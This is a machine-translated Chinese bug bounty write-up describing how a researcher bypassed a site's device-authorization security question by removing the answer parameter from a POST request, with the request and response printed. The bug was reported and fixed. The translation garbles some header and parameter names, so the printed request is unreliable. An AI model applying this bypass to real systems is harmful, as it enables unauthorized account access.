 # 设备授权旁路！

> 原文：<https://infosecwriteups.com/device-authorization-bypass-aa508c9193ed?source=collection_archive---------4----------------------->

![](img/05141d538adedaf29d0445f68817b5c3.png)

大家好，这是哈桑汗优素福扎伊&我想分享我的一个发现。大约两个月前，我在 BugCrowd 上收到了私人邀请。为了私人节目的隐私，让我们称之为“ *Private.com”。*

因此，当我对应用程序进行笔测试时，我首先注意到了它们的功能。引起我注意的功能是，当我们从可信设备登录时，我们不会提示机密安全问题，但如果我们从不可信设备登录，或者我们可以说从新设备登录，我们会被重定向到 Private.com/的*设备授权*。因此，*我寻找常见的方法来绕过这一点，如速率限制等，但不幸的是，有一个速率限制保护。我测试了一整天的应用程序，但我找不到任何方法来绕过设备认证。事实上，我对自己承诺，我会绕过它；)但这是无法回避的，所以它只是让我厌倦了:/。我离开了那个目标，开始寻找其他网站。*

*![](img/deaeb110b9de7fcd154590281d5aee10.png)*

*两天后，我想让我们再给那个 private.com 一次机会。所以，我检查了 POST 请求&突然我想为什么不试着删除参数和它的值呢？。帖子请求是这样的。*

***请求:***

**POST/device-authorization HTTP/1.1
主机:private.com
用户代理:Mozilla/5.0(Windows NT 10.0；WOW64RV:55.0)Gecko/2010 01 01 Firefox/55.0
接受:application/json，text/plain，*/*
接受-语言:en-US，en；q=0.5
接受-编码:gzip，deflate，br
内容-类型:application/JSON；charset = utf-8
X-Requested-With:XMLHttpRequest
Referer:*[*https://www.private.com/device-authorization*](https://www.private.com/device-authorization) *Content-Length:57
Cookie:SNIP
Connection:close**

**{ " device auth[remember]":true，" device auth[answer]":" test " }**

*我接下来做的是我只是从 POST 数据中删除了***" device auth[answer]":" test "*&只发送了带有*{ " device auth[memory]":true }*的 POST 请求***

***我得到的回应是类似的东西***

*****回应:*****

****HTTP/1.1 200 OK
日期:2017 年 9 月 25 日星期一 20:52:59 GMT
内容类型:应用程序/json
内容长度:47
连接:关闭
缓存-控制:无缓存
X-帧-选项:same origin
Set-Cookie:
Set-Cookie:
X-new relic-App-Data:
严格传输包括子域；预加载
X-内容-类型-选项:nosniff****

****{“成功”:真}****

***我被重定向到我的个人资料的/设置，:D，你知道接下来是什么吗？Bounty :P 所以只要移除参数和它的值，我就可以绕过设备授权。***

***![](img/e33819a32902df9835ce933509a054d9.png)***

***问题在一天内得到解决&分析师指出:***

> ***很好的发现！***
> 
> ***感谢您向我们报告了此漏洞，并提供了非常详细的报告。
> 我们已经进行了修复，您能否帮忙验证一下问题是否已经解决，我们可以将票据转移到关闭状态。非常感谢！***

*****提示:*****

***不要忘记添加和删除参数来绕过东西。***

***我希望你们学到了一些新东西***

***谢谢你的阅读，***

***关于你，***

***哈桑·汗·优素福扎伊***